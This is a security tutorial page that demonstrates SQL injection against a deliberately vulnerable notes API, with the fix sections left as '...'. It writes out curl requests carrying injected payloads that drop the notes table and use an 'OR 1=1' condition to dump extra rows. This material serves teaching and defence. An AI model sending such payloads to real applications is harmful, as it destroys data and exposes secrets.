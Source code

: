 ```yaml
---
bookCollapseSection: false
---
```


# Anatomy of a Vulnerability

In this section we will create a SQL injection on vulnerable code, so that we
can perform malicious actions on the application. This shows how SQL injection
works, and explains how vulnerabilities in your application can be exploited and cause
harm to your organization.

## Dropping a Table via SQL Injection

In this example, I will show how to drop the table when running a
curl request and injecting data.

For this example we will examine the DELETE API call.

Let's create a note via the API:

```bash
$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "ZAP"}'

{
  "Success": "Note added!"
}
```

Now we can delete it with the DELETE api-call:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=1
```

Now let's see what happens when a hacker 🏴‍☠️ tries to exploit this api
path and see if they can perform some malicious activity:

```bash
$ curl -X DELETE http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/delete\?id\=1%3B%20DROP%20TABLE%20notes
```

The above also drops the notes table, causing information loss and downtime to the application. This can
be critical to a business function.

This means that in the UI, a user can simply add the following to drop the table:

```sql
1; DROP TABLE notes;
```

### Examining the Vulnerable Code

...

### Resolution

...

## Revealing Secret Data from Database via SQL Injection

In this example, I will show how to reveal a secret field from the
database when running a curl request and injecting additional items
to a query.

Let's create a note via the API:

```bash
$ curl -X POST http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/add -d '{"message": "ZAP"}'

{
  "Success": "Note added!"
}
```

Now we can try and retrieve the note. This is what a normal call looks
like when following the API documentation:

```bash
$ curl -X GET http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/get\?id\=1

[(1, 'ZAP')]
```

Now let's see what happens when a hacker 🏴‍☠️ tries to obtain more items from the
database:

```bash
$ curl -X GET http://{LOAD_BALANCER_IP}/{APPLICATION_PATH}/get\?id\="%20OR%201=1
 
```

**Note:** 
%20 is a space in a URL.

### Examining the Vulnerable Code

...

### Resolution

...